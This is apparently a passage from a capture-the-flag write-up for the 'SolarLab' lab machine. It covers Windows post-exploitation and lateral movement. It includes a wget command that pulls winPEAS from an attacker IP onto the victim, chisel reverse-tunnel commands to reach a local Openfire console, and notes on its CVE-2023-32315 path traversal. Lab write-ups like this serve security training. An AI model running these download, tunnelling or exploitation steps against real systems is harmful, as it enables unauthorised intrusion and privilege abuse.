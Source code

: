 
getting winpeas
```
wget "http://10.10.16.97/winPEASany.exe" -OutFile 
"C:\Users\blake\Desktop\winpeas.exe"
```
Found openfire service Running running a web protal locally on port 9090.
![alt text](../images/solarlab/listneingport.png)
```
Openfire(Openfire)["C:\Program Files\Openfire\bin\openfire-service.exe"] - Autoload
```

## Lateral Movement
Openfire is a real-time collaboration (RTC) server licensed under the Open Source Apache License.
I tried to get into `C:\Program Files\Openfire\` to look for scripts/DBs but it was resricted to openfire only.
### Openfire Web Server
port forwarding with chisel so i can interact with local server:
```
.\chisel.exe client 10.10.16.14:4321 R:9090:127.0.0.1:9090   #on-victim
chisel server --socks5 --reverse -p 4321                     #on-attacker
```

Navigating to localhost:9090
![alt text](../images/solarlab/openfire.png)
### Exploring CVE-2023-32315
trying default credentials did not work.
searching for "openfire exploit" reveals Openfire  is vulnerable to a Path traversal where attackers can obtain CSRF token and cookie for Administrative users and generate new users with them.
![alt text](../images/solarlab/0_5wf7vTHNYoj8z4hy.webp)
